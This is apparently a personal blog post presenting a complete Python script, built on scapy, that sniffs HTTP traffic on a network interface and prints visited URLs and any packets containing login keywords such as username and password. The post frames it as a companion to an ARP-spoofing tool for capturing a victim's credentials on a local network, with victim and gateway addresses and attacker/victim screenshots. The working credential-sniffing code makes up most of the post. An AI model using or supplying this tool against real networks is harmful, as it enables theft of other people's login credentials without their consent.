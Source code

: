 ```yaml
---
title: A Credential/Url sniffer program
date: 2021-06-28 09:45:47 +07:00
categories: python
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A program to sniff Credentials.
---
```



<p align="left">
 <img src="https://i.kym-cdn.com/photos/images/facebook/001/651/265/287.jpg">
</p>

## This is a python script that sniffs for URL's/Login creds on a specific interface. When coupled with the previous ARPSpoof program this program can be used to remotely sniff traffic between the ARPSpoofed victims.

**In this example we ARP poison/spoof the connection between the target Windows system(192.168.0.117) and the gateway router(192.168.0.1) to remotely sniff any creds/urls visited by the victim.**

* Used the scapy_http module to interact with HTTP layers and filter them as needed.

* Implemented scapy.sniff() function to sniff traffic and filter with BPF's(Berkley Packet Filters).

* Byte object conversion to string using str() and decode() functions for cross-compatibility with python3.



### Code:

```python
#!/usr/bin/env python


import argparse 
import scapy.all as scapy
from scapy.layers import http
# pip install scapy_http

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-i", "--Interface", dest="interface", help="Host Interface to sniff on")
    options = parser.parse_args()
    if not options.interface:
        # code to handle error
        parser.error("[-] Please specify a valid Host Interface, use --help for info.")
    return options

def sniff(interface):
	# store --> storing packets in memory
	# prn --> callback function
	# filter --> filter according to BPF like TCP/port 80/ICMP
	scapy.sniff(iface=interface , store=False, prn=process_sniffed_packet)


def get_url(packet):
	return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
	# Filter for raw content
		if packet.haslayer(scapy.Raw):
			load = str(packet[scapy.Raw].load)
			keywords = ["username", "user", "login", "password", "pass", "uname"]
			for keyword in keywords:
				if keyword in load:
					return load

def get_host_info(packet):
		if packet.haslayer(scapy.IP):
			return str(packet[scapy.IP].src)

					

def process_sniffed_packet(packet):
	# Filter based on http layer
	if packet.haslayer(http.HTTPRequest):
		url = get_url(packet)
		print("[+] Captured Urls: " + url.decode())
		login_info = get_login_info(packet)
		if login_info:
			host_info = get_host_info(packet)
			print("\n[+] Packet found from host: " + host_info)
			print("\n[+!] Possible Login Data: " + str(login_info) + "\n------------------------\n")
		

print("""
                                                        
|              o         ,---.     o,---.,---.          
|    ,---.,---..,---.    `---.,---..|__. |__. ,---.,---.
|    |   ||   |||   |        ||   |||    |    |---'|    
`---'`---'`---|``   '    `---'`   '``    `    `---'`    
          `---'                                         
                                                                                                
                                                         """)

options = get_arguments()
sniff(options.interface)
```

### Output:

__Attacker:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Login_Sniffer/sniff.png)

__Victim:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Login_Sniffer/sniff2.png)
